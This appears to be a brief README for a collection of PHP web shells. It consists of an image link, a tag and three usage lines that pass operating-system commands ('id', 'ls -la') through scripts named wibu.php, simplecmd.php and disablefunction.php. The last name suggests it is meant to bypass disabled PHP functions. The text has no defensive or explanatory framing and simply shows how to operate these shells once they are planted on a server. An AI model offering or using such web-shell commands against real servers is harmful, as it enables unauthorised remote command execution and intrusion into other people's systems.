 # K317Z0

use wibu.php?cmd=id
-------------------------------------------
use simplecmd.php?da=id
-----------------------------------------------------
**disablefunction.php?cmd=ls+-la**
-----------------------------------------------------------
